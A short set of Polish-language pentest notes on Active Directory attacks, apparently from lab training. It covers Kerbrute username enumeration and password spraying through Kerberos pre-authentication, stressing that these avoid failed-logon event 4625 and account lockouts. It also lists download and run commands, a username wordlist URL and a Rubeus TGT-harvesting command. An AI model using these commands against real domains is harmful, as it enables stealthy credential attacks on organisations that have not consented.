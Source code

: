 # 1) Kerbrute (brute force to jedna ramka UDP to KDC nie generuje eventu zlego logowania)
### Info
To narzędzie wykorzystuje wstępne uwierzytelnianie Kerberos, które jest znacznie szybszym i potencjalnie bardziej niewidocznym sposobem przeprowadzania rozpylania haseł. Ta metoda nie generuje zdarzenia systemu Windows o identyfikatorze 4625: nie udało się zalogować do konta lub błąd logowania, który jest często monitorowany. Narzędzie wysyła żądania biletu TGT do kontrolera domeny bez wstępnego uwierzytelniania Kerberos w celu wyliczenia nazwy użytkownika. Jeśli KDC odpowie błędem PRINCIPAL UNKNOWN, nazwa użytkownika jest nieprawidłowa. Za każdym razem, gdy KDC monituje o wstępne uwierzytelnienie Kerberos, oznacza to, że nazwa użytkownika istnieje, a narzędzie oznaczy ją jako prawidłową. Ta metoda wyliczania nazwy użytkownika nie powoduje błędów logowania i nie blokuje kont. 

### Instalacja
      ▪ wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
      ▪ chmod +x kerbrute_linux_amd64
### Enumeracja uzytkownikow (wyslanie jednej ramki UDP do KDC)
      ▪ Nie powoduje to alarmow ani zadnych czerwonych logow
      ▪ ./kerbrute_linux_amd64 userenum --dc <domena> -d <adres domeny> <lista>
      ▪ ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt

```console
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

# 2) Przydatne slowniki
      • Slownik
            ▪ https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/User.txt

# 3) Proste zabiegi
      • Rubeus (zbiera TGT wysylane do KDC co 30 sekund)
            ▪ .\Rubeus.exe harvest /interval:30 



      
      
      
      
      
      
      
      
      
      
      
